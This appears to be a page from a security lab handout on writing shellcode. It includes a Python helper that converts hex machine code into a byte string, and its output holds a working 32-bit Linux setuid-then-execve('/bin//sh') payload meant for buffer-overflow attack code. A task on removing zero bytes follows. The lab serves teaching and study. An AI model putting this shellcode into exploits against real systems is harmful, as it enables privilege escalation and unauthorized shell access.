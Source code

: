 &emsp; &emsp;  &emsp;  &emsp;  &emsp;  &emsp;  &emsp;  &emsp; &emsp;  &emsp;  &emsp;  &emsp; **Listing 2:** convert.py
```
#!/usr/bin/env python3


# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = ’shellcode= (\n’ + ’ "’
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
        s += ’"\n’ + ’ "’
s += ’"\n’ + ").encode(’latin-1’)"
print(s)
```

The `convert.py` program will print out the following Python code that you can include in your attack code. It stores the shellcode in a Python array.
```
$ ./convert.py
Length of the shellcode: 35
shellcode= (
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
    "\x0b\xcd\x80"
).encode(’latin-1’)
```
### 2.2 Task 1.b. Eliminating Zeros from the Code

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string copy, such as the `strcpy()` function. For these string copy functions, zero is considered as the end of the string. Therefore, if we have a zero in the middle of a shellcode, string copy will not be able to copy anything after the zero from this shellcode to the target buffer, so the attack will not be able to succeed.
<Br>
&emsp; Although not all the vulnerabilities have issues with zeros, it becomes a requirement for shellcode not to have any zero in the machine code; otherwise, the application of a shellcode will be limited.
<Br>
&emsp; There are many techniques that can get rid of zeros from the shellcode. The code `mysh.s` needs to use zeros in four different places. Please identify all of those places, and explain how the code uses zeros but without introducing zero in the code. Some hints are given in the following:
